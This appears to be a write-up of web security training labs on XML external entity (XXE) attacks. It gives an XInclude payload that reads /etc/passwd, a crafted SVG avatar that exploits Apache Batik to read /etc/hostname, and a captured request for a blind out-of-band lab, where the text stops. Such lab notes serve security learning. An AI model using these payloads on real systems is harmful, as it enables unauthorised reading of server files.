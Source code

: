 ### Exploiting XInclude to retrieve files

> Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.
>
> To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.

After selecting the 'Check Stock' button we see the below request body in Developer Tools

```http
productId=1&storeId=1
```

Payload use after replacing the `productId=` parameter with the payload

```http
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### Exploiting XXE via image file upload

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
>
> To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Found exploit for mentioned Apache Batik library: [https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/)

Created an .svg file with the below payload then used that as the uploaded avatar image file

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="16" x="0" y="16">&xxe;</text></svg>
```

### Blind XXE with out-of-band interaction

> You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. Use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

After intercepting the request we get the below request body

```xml
<?xml version="1.0" encoding="UTF-8"?>

<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
